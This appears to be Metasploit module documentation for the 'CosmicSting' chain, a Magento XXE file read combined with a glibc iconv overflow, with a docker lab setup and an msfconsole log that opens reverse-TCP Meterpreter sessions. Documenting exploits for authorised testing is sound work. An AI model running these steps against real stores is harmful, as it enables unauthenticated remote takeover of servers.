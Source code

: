 ## Vulnerable Application
This combination of an Arbitrary File Read (CVE-2024-34102) and a Buffer Overflow in glibc (CVE-2024-2961)
allows for unauthenticated Remote Code Execution on the following versions of Magento and Adobe Commerce and
earlier if the PHP and glibc versions are also vulnerable:
  - 2.4.7 and earlier
  - 2.4.6-p5 and earlier
  - 2.4.5-p7 and earlier
  - 2.4.4-p8 and earlier

Vulenerable PHP versions:
  - From PHP 7.0.0 (2015) to 8.3.7 (2024)

Vulnerable iconv() function in the GNU C Library:
  - 2.39 and earlier

The exploit chain is quite interesting and for more detailed information I suggest reading the links in the
references. I'll give a very brief over view. CVE-2024-34102 is and XML External Entity vulnerability which
leverages PHP filters to read arbitrary files off the target system. The exploit chain uses this to read
/proc/self/maps off the system which provides the address of PHP's heap and the filename of the libc. Then
using the file read again the libc binary is downloaded and the exploit extracts the address and offset of the
following functions which are used to write the payload: libc_malloc, libc_system and libc_realloc.

With this information and expert knowledge of PHP, it's: chunks, free lists, buckets, bucket brigades and how
all such things are are stored in memory and affected by PHP filters, CVE-2024-2961 can then be exploited. A
long chain of PHP filters is constructed and sent in the same way the XXE is exploited which allows for; a
payload to be written to memory and for the buffer overflow to be exploited in order to redirect execution to
obtain RCE.

### Setup

The following docker-compose file can be used to test this module. There are a few things that need to be noted:
1. cURL is not installed by default in the target container, in order for a fetch payload to be successful run the
   following once the container has been started:
```
   docker exec -it magento_magento_1 bash 
   root@13c538f53068:/# apt update; apt install curl -y
```
2. The docker-compose file sets magento server's name to `localhost` and in order to exploit the container `rhost` must
   be set to `localhost` (setting `rhost` to `127.0.0.1` or your local IP address will not work for this docker-compose file)
   and so given this configuration `msfconsole` must be running on the same host as the container.
3. The network settings on my macbook didn't allow me to exploit this locally so I was running the containers and
   `msfconsole` from an Ubuntu 22.04 VM.

```
services:
  mariadb:
    image: docker.io/bitnami/mariadb:10.6
    environment:
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
      - MARIADB_USER=bn_magento
      - MARIADB_DATABASE=bitnami_magento
    volumes:
      - 'old_mariadb_data:/bitnami/mariadb'
  magento:
    image: docker.io/bitnami/magento:2.4.7-debian-12-r0
    ports:
      - '80:8080'
      - '443:8443'
    environment:
      - MAGENTO_HOST=localhost
      - MAGENTO_DATABASE_HOST=mariadb
      - MAGENTO_DATABASE_PORT_NUMBER=3306
      - MAGENTO_DATABASE_USER=bn_magento
      - MAGENTO_DATABASE_NAME=bitnami_magento
      - ELASTICSEARCH_HOST=elasticsearch
      - ELASTICSEARCH_PORT_NUMBER=9200
      # ALLOW_EMPTY_PASSWORD is recommended only for development.
      - ALLOW_EMPTY_PASSWORD=yes
    volumes:
      - 'old_magento_data:/bitnami/magento'
    depends_on:
      - mariadb
      - elasticsearch
  elasticsearch:
    image: docker.io/bitnami/elasticsearch:7
    volumes:
      - 'old_elasticsearch_data:/bitnami/elasticsearch/data'
volumes:
  old_mariadb_data:
    driver: local
  old_magento_data:
    driver: local
  old_elasticsearch_data:
    driver: local
```

## Options

### DOWNLOAD_FILE_TIMEOUT
This specifies how long the module should wait to receive a file that was requested by the `download_file` method which
exploits the Arbitrary File Read vulnerability CVE-2024-34102.

## Verification Steps

1. Start msfconsole
1. Do: `use linux/http/magento_xxe_to_glibc_buf_overflow`
1. Set the `RHOST`, `SRVHOST` and `LHOST` options
1. Run the module
1. Receive 3 Meterpreter sessions as the `daemon` user.

## Scenarios
### 
```
msf6 > use magento_xxe_to_glibc_buf_overflow

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank       Check  Description
   -  ----                                                  ---------------  ----       -----  -----------
   0  exploit/linux/http/magento_xxe_to_glibc_buf_overflow  1970-01-01       excellent  No     CosmicSting: Magento Arbitrary File Read (CVE-2024-34102) + PHP Buffer Overflow in the iconv() function of glibc (CVE-2024-2961)


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/http/magento_xxe_to_glibc_buf_overflow

[*] Using exploit/linux/http/magento_xxe_to_glibc_buf_overflow
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set srvhost 172.16.199.130
srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set fetch_srvhost 172.16.199.130
fetch_srvhost => 172.16.199.130
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > set rhost localhost
rhost => localhost
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > run 
[*] Exploit running as background job 6.

[*] Started reverse TCP handler on 172.16.199.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using URL: http://172.16.199.130:8080/
[*] Server started
msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > 
[+] Exploit precondition 1/3 met: Detected Magento Community edition version 2.4 which is vulnerable.
[+] Exploit precondition 2/3 met: PHP appears to be exploitable.
[+] Exploit precondition 3/3 met: glibc is version: 2.36
[+] The target appears to be vulnerable.
[*] Attempting to parse libc to extract necessary symbols and addresses
[*] Attempting to build an exploit PHP filter path with the information extracted from libc and /proc/self/maps
[*] Sending payload...
[*] Sending stage (3045380 bytes) to 172.25.0.4
[*] Sending stage (3045380 bytes) to 172.25.0.4
[*] Sending stage (3045380 bytes) to 172.25.0.4
[*] Meterpreter session 4 opened (172.16.199.130:4444 -> 172.25.0.4:41354) at 2024-10-09 11:26:31 -0700
[*] Meterpreter session 5 opened (172.16.199.130:4444 -> 172.25.0.4:41366) at 2024-10-09 11:26:31 -0700
[*] Meterpreter session 6 opened (172.16.199.130:4444 -> 172.25.0.4:41370) at 2024-10-09 11:26:31 -0700
[*] Server stopped.

msf6 exploit(linux/http/magento_xxe_to_glibc_buf_overflow) > sessions -i -1
[*] Starting interaction with 6...

meterpreter > getuid
Server username: daemon
meterpreter > sysinfo
Computer     : 172.25.0.4
OS           : Debian 12.5 (Linux 6.8.0-45-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
